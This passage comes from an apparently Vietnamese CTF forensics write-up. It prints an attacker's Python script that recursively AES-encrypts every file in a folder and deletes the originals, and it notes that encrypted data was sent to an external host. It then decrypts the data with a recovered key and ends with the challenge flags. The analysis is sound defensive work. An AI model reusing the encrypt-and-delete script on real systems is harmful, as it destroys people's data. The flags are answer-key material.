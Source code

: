```python=
    encrypt_file_path = file_path + ".enc"
    with open(encrypt_file_path, "wb") as f:
        f.write(base64.b64encode(iv + ciphertext))
    os.remove(file_path)


def main(folder_path,key):
    for root, dirs, files in os.walk(folder_path):
        for file in files:
            file_path = os.path.join(root, file)
            aes_encrypt(file_path, key)


parser = argparse.ArgumentParser(description="Process to exfiltrate data")
parser.add_argument('-k', "--key", type=str, required=True, help="A base64 key to process")
parser.add_argument('-F', "--folder_path", type=str, required=True, help="A folder to exfiltrate")
args = parser.parse_args()
main(args.folder_path, args.key)
```

Cụ thể, nó đã mã hóa các tệp tin bằng cách sử dụng thuật toán AES trong chế độ CBC. Key mã hóa được cung cấp dưới dạng base64, và tệp tin được mã hóa sẽ được lưu với phần mở rộng .enc. Tệp tin gốc sau đó sẽ bị xóa.
Ta vào lại /root/bash_history/ để xem lịch sử của root đã làm gì.
![image](https://hackmd.io/_uploads/rJgKYyKFJl.png)
Ta thấy được rằng kẻ tấn công đã thực hiện encrypt vào thư mục nokotan sau đó xóa đi secret.txt.enc. Có vẻ như sau đó kẻ tấn công đã xem nội dung bị encrypt của secret sau đó gửi tới nfjijju2.requestrepo.com. Như hình trên, ta đã có được key mã hóa cùng với nội dung đã bị encrypt của file secret. Giờ ta có code decrypt như sau:
```python=
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64


def aes_decrypt_and_print(f, key):
    # Giải mã khóa từ base64
    key = base64.b64decode(key)
    # Giải mã chuỗi đầu vào từ base64
    data = base64.b64decode(f)
    # Lấy IV từ dữ liệu giải mã (16 byte đầu tiên)
    iv = data[:16]
    # Lấy ciphertext từ dữ liệu giải mã (phần còn lại)
    ciphertext = data[16:]
    # Tạo đối tượng cipher với AES CBC mode và IV
    cipher = AES.new(key, AES.MODE_CBC, iv)
    try:
        # Giải mã ciphertext và loại bỏ padding
        decrypted_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
        # In ra nội dung đã giải mã
        print(decrypted_data.decode('utf-8'))
    except ValueError as e:
        print("Error during decryption:", e)
# Dữ liệu đã mã hóa (f) và khóa (key)
f = "rytcy2C/IaMXY6CY3jZCMLgG9BIiNaaYJIUwv1d7V4Yz2lfjZPb/a6pCeUKoe8WJ"
key = "bm9rb3Rhbmtvbm9uYWkxMg=="
# Giải mã và in ra nội dung
aes_decrypt_and_print(f, key)
```
**Answer: W1{!!C0ngr4tUUUl4tI0ns1!}**

Trả lời xong 7 câu hỏi, ta đã có được flag.
**Flag: W1{!!N0kot4n_sHIkaNN00kO_Hackeddd!!3086230133}**
